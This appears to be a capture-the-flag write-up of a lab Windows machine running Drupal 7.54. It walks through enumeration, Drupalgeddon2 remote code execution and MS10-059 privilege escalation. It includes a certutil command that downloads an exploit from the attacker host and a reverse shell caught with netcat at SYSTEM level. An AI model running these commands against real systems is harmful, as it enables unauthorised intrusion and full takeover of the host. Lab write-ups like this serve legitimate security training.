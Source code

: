 # IP Address: 10.10.10.9

# Enumeration

```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.9 -t all

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

### HTTP
This is a drupal site. We use droopscan to enumerate.
```
┌──(code㉿kali)-[~/tools/droopescan]
└─$ droopescan  scan drupal -u http://10.10.10.9
[+] Plugins found:                                                              
    ctools http://10.10.10.9/sites/all/modules/ctools/
        http://10.10.10.9/sites/all/modules/ctools/CHANGELOG.txt
        http://10.10.10.9/sites/all/modules/ctools/changelog.txt
        http://10.10.10.9/sites/all/modules/ctools/CHANGELOG.TXT
        http://10.10.10.9/sites/all/modules/ctools/LICENSE.txt
        http://10.10.10.9/sites/all/modules/ctools/API.txt
    libraries http://10.10.10.9/sites/all/modules/libraries/
        http://10.10.10.9/sites/all/modules/libraries/CHANGELOG.txt
        http://10.10.10.9/sites/all/modules/libraries/changelog.txt
        http://10.10.10.9/sites/all/modules/libraries/CHANGELOG.TXT
        http://10.10.10.9/sites/all/modules/libraries/README.txt
        http://10.10.10.9/sites/all/modules/libraries/readme.txt
        http://10.10.10.9/sites/all/modules/libraries/README.TXT
        http://10.10.10.9/sites/all/modules/libraries/LICENSE.txt
    services http://10.10.10.9/sites/all/modules/services/
        http://10.10.10.9/sites/all/modules/services/README.txt
        http://10.10.10.9/sites/all/modules/services/readme.txt
        http://10.10.10.9/sites/all/modules/services/README.TXT
        http://10.10.10.9/sites/all/modules/services/LICENSE.txt
    profile http://10.10.10.9/modules/profile/
    php http://10.10.10.9/modules/php/
    image http://10.10.10.9/modules/image/

[+] Themes found:
    seven http://10.10.10.9/themes/seven/
    garland http://10.10.10.9/themes/garland/

[+] Possible version(s):
    7.54

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.9/CHANGELOG.txt
    Default admin - http://10.10.10.9/user/login

```

Since the target is running Drupal 7.54, we check exploit-db for any interesting exploits. 
We find Drupalgeddon2. https://www.exploit-db.com/exploits/44449

# Exploitation

Run the exploit against the target and get remote command execution.
```
┌──(code㉿kali)-[~/tools/droopescan]
└─$ ./44449.rb http://10.10.10.9
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54

...

drupalgeddon2>> whoami
nt authority\iusr
```

# Privilege Escalation
We copy the output of `systeminfo` to our local machine and run windows-exploit-suggester against it. 
```
┌──(code㉿kali)-[~/tools]
└─$ ./windows-exploit-suggester.py --database 2021-11-17-mssb.xls --systeminfo systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
...
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
...
[*] done
```


We try the pre-compiled exploit MS10-059.exe from https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059 by copying it to the target with `certutil`. After running the exploit, we see that a netcat listener needs to be setup on our local machine to receive the reverse shell. 

On target:
```
drupalgeddon2>> certutil -urlcache -split -f "http://10.10.14.17/exploit.exe
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.
drupalgeddon2>> exploit2.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
drupalgeddon2>> exploit2.exe 10.10.14.17 443
```

Locally:
```
┌──(code㉿kali)-[~/tools/windows-kernel-exploits/MS10-059]
└─$ nc -nlvp 443                                                                                                                                  
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.9] 60884
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```


# Proof
user.txt

![[Pasted image 20211117183833.png]]

root.txt

![[Pasted image 20211117183923.png]]